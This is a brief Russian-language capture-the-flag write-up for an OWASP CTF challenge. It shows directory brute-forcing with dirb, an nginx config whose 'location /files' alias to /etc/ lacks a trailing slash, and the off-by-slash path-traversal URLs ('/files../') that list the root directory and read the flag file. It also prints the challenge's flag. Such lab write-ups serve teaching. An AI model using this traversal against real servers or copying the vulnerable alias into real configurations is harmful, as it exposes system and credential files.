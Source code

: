 # Luhansk (16.owaspctf.gq)

На главной странице ничего полезного, запускаем dirb. Находим директорию `/files` которая выводит листинг `/etc` сервера.
Читаем конфиг для nginx.

`http://16.owaspctf.gq/files/nginx/conf.d/default.conf`

```
server {
	listen 80;

	root /usr/share/nginx/html;

	index index.html;

	server_name _;

    autoindex on;

	location /files {
        alias /etc/;
    }
}
```

`http://16.owaspctf.gq/files../` -> листинг `/`

`http://16.owaspctf.gq/files../home/flag.txt`

`FLAG{NGINX_conf_its_EASY_and_Secure}`
